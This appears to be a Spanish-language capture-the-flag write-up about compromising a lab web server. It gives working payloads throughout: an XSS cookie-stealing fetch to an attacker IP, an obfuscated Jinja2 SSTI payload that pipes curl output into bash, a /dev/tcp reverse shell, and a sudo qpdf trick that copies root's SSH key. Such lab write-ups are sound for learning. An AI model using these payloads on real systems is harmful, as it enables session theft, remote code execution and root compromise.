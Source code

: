 
# PortScan

```java
# Nmap 7.94SVN scan initiated Tue Jun  4 16:55:14 2024 as: nmap -sCV -p22,80 -oN targeted 10.10.11.12
Nmap scan report for 10.10.11.12
Host is up (0.069s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 2c:f9:07:77:e3:f1:3a:36:db:f2:3b:94:e3:b7:cf:b2 (ECDSA)
|_  256 4a:91:9f:f2:74:c0:41:81:52:4d:f1:ff:2d:01:78:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jun  4 16:55:24 2024 -- 1 IP address (1 host up) scanned in 10.29 seconds
```

# Sitio Web
![[Pasted image 20240605163238.png]]

Vemos un **nav** con su respectivo **Login**, intenté ingresar con credenciales por defecto, incluso llevar a cabo un **STTI** blind ya qué por detrás está corriendo un **python**, entre otras técnicas para poder bypassear o ejecutar código a través del Login con **Burpsuite**, pero no logré nada, seguí indagando en la página principal.

![[Pasted image 20240605163407.png]]

Vemos que tenemos en la página un apartado para solicitar un presupuesto para la limpieza.
![[Pasted image 20240605163446.png]]

Intercepto esta solicitud con **Burpsuite** para llevar a cabo intento de posible falla de seguridad... de primero se me ocurre **STTI**, intenté varias maneras pero no logré nada, seguí intentando...


Finalmente, pude llevar a cabo un **XXS** tras varios intentos fallidos, ya que la **DATA** tramitada para las variables debe ser **URLencodeada**, y la respuesta del servidor no muestra nada para guiarnos, así que fue a ciegas mediante un servidor en local con Python, para ver sí lográbamos llevar a cabo la **XXS**.

1. Nos montamos servidor en local con python.
```bash
python3 -m http.server 80
```

2. Payload utilizado en la solicitud para la variable "**service**".
```bash
<script+src%3d"http%3a//10.10.14.x/test"></script>
```

![[Pasted image 20240605164714.png]]

![[Pasted image 20240605164722.png]]

viendo qué estamos pudiendo llevar a cabo un **XSS**, se me ocurre tratar de robar la cookie de sesión, es decir un **cookie hijacking**, para poder loguearnos en el **Login** que vimos al principios, así que sustituyo el payload por éste:
```bash
<img+src%3dx+onerror%3dfetch('http%3a//10.10.14.3/'%2bdocument.cookie)%3b>
```

obteniendo así lo que sería una cookie de sesión:
![[Pasted image 20240605165222.png]]

con el nombre de su variable, así que procedo a remplazar esto en mi navegador, en mi caso uso **Firefox**, es tan fácil como ir a la WEB, hacer **CTRL + SHIFT + C**, luego ir a **Storage** > **Cookies** > **+**, y cambiamos los valores tal que así:
![[Pasted image 20240605165539.png]]

o también podríamos usar la extensión de navegadores **"cookie-editor"**.

Lamentablemente, al ir a **Login**, recargando no logro nada, pero hago un **fuzzing** rápido a directorios, ya que a lo mejor con la cookie no me redirige directamente, usaré la herramienta "**GoBuster**" para esto.
```bash
❯ gobuster dir -u http://capiclean.htb/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
===============================================================

/about                (Status: 200) [Size: 5267]
/login                (Status: 200) [Size: 2106]
/services             (Status: 200) [Size: 8592]
/team                 (Status: 200) [Size: 8109]
/quote                (Status: 200) [Size: 2237]
/logout               (Status: 302) [Size: 189] [--> /]
/dashboard            (Status: 302) [Size: 189] [--> /]
```

descubriendo un directorio "**/dashboard**", así que con la cookie seteada procedo a ir a éste directorio...
![[Pasted image 20240605170417.png]]

vemos qué estamos ante un **Sistema de factura,** el cual podemos escanear **códigos QR's**, editar servicios, entre otras cosas... me pongo a investigar & probar cosas..

empiezo generando una factura..
![[Pasted image 20240605171335.png]]
eso me genera un **ID**, intuyo que este ID lo necesitaremos para algo, sigo indaganado..
![[Pasted image 20240605171416.png]]
el **ID** aparentemente es para generar un **QR**, así que lo pongo acá.
![[Pasted image 20240605171538.png]]

veo que ahora podemos generar un Escaneable con el link del QR, lo pongo...
![[Pasted image 20240605171702.png]]
generándose esto, me da por curiosear aquí ya que veo números para tratar de llevar a cabo un **STTI**, lo intercepto con **BurpSuite**.

![[Pasted image 20240605171802.png]]

en esa **DATA** pruebo en la variable del **QR** inyectar una operación básica **SSTI**..
![[Pasted image 20240605172955.png]]
![[Pasted image 20240605173011.png]]

y estamos llevando a cabo un **STTI** exitosamente, pero lo está convirtiendo en **base64**, ya sabiendo esto podría entablarme una **Reverse Shell** de la siguiente manera:

1. Nos creamos un archivo con nombre "**revshell**", con esto dentro:
```bash
#!/bin/bas
bash -c 'bash -i >&/dev/tcp/10.10.14.x/PORT 0>&1'
```

2. En el mismo directorio del "**revshell**" nos montamos un servidor Python.
```python
python3 -m http.server 80
```

3. Abrimos un puerto en escucha para recibir la **Reverse Shell:**
```bash
nc -nlvp PORT
```

5. Usamos este payload en la solicitud:
```bash
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl IP:PORT/revshell | bash")|attr("read")()}}

```

![[Pasted image 20240605173635.png]]

logrando acceso a la máquina, sólo quedaría darle [Tratamiento a la TTY]()(https://4uli.github.io/tratamiento-tty/#).


# Escalada de Privilegios #1 

como **www-data**, miro el directorio Home para ver posibles usuarios, descubriendo así a "**consuela**", indago en el directorio del la app, viendo el **"app.py"** detalladamente descubro esto:
![[Pasted image 20240605174045.png]]

descubriendo las credenciales de la **DB** en texto claro, así qué procedo a buscar que puertos que estén en uso que coincidan con lo que usan las DB's por defecto con:
```bash
ss -tulnp
```

![[Pasted image 20240605174153.png]]
viendo que está abierto el **:3306** que suele ser **MySQL**, así que intento conectarme a **MySQL** en local con estas créndeciales.
```bash
mysql -u iclean -p
```

![[Pasted image 20240605174435.png]]

logrando conectarnos a la base de datos, así que ahora veré las tablas & sus contenidos a ver que encuentro...
![[Pasted image 20240605174526.png]]
encontrándome esto en la tabla **"users"** de la db "**capiclean**", las contraseñas pero hasheadas, pruebo en [hashes.com](https://hashes.com/en/decrypt/hash) a ver sí es posible desencriptarla, empecé por la de admin pero no funcionó, así que pruebo con el hash de consuela..
![[Pasted image 20240605174919.png]]

logrando desencriptar la contraseña, ahora pruebo estas credenciales para convertirme en "**consuela**", logrando acceso.

# Escalada de Privilegios #2

Como "**consuela**" listo por **SUDOERS**, viendo ésto:
![[Pasted image 20240605175042.png]]

qué podemos ejecutar el aparente binario "**qpdf**" como quién queramos, así que es una potencial manera de escalar a **ROOT**, no tengo idea qué es **qpdf** así que hago una investigación en Internet, encontrándome con su [DOCUMENTACIÓN.](https://qpdf.readthedocs.io/en/stable/cli.html#basic-invocation)

y usando ésta linea:
```bash
sudo /usr/bin/qpdf --empty /tmp/pwned.txt --qdf --add-attachment /root/.ssh/id_rsa --
```

crearemos un archivo en el "**tmp**" con la copia de la **id_rsa** de **ROOT**.
![[Pasted image 20240605180556.png]]

nos copiamos esta clave en nuestra máquina, dándole permisos "**600**" y podremos conectarnos.
![[Pasted image 20240605180657.png]]